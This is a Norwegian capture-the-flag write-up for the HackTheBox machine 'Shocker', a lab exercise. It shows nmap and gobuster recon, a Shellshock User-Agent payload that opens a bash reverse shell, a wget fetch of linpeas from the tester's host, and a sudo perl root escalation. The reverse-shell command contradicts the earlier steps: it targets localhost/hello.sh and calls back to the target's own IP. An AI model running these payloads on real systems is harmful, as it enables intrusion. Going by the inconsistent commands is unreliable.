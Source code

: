 # Shocker
### nmap

```
nmap -sV -sC 10.10.10.56
Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-14 20:19 CET
Nmap scan report for 10.10.10.56
Host is up (0.058s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.82 seconds
```

### Hva vi gjør:
Det første vi gjør er å gå inn på nettsiden, der ser vi ikke mye annet dette:
<img src="website.png">
<p>Deretter kjører vi gobuster for å finne directories i nettsiden. Vi finner cgi-bin, server-status og /icons/READme.</p>
Jeg vil gjerne se mer av cgi-bin, så jeg kjører gobuster videre fra /cgi-bin/

```
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x sh,pl
```
Vi finner kjapt: <b>user.sh</b>.
<p>Med litt kjapp google søk finner vi denne <a href="https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock">artikklen</a></p>
Vi kjører en test:

```
curl -H "User-agent: myuseragent" http://10.10.10.56/cgi-bin/user.sh

vulnerable

Content-Type: text/plain
Just an uptime test script
```
Dette betyr vi kan injecte commands til maskinen og vi gjør da et reverse shell!

```
ncat -lvnp 1234

curl -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.10.56/1234 0>&1" http://localhost/cgi-bin/hello.sh
```

Og vi har shell!
<p>
<img src="shell.png">
<p>
Vi får user flag i /home/shelly.
  
```
cat user.txt
2ec24e11320026xxxxxxxxxx
```
  
### Root
  Vi overfører linpeas.sh til maskinen.
  #### Vår maskin:
```
  python3 -m http.server
 ```
  #### Målets maskin:
  ```
  wget xx.xx.xx.xx:8000/linpeas.sh
  chmod +x linpeas.sh
  ./linpeas.sh
  ```
Linpeas forteller at shelly kan kjøre perl uten passord som sudo. <a href="https://gtfobins.github.io/">GTFObins</a> er en fantastisk side for å finne exploits for root esculation for slikt, og vi finner en kommando der som gir oss root.
  
  ```
  perl -e 'exec "/bin/sh";'
  whoami
  root
  cd /root
  cat root.txt
  xxxxxxxxxxxxxxxxxxxxxxxxxx
  ```
  
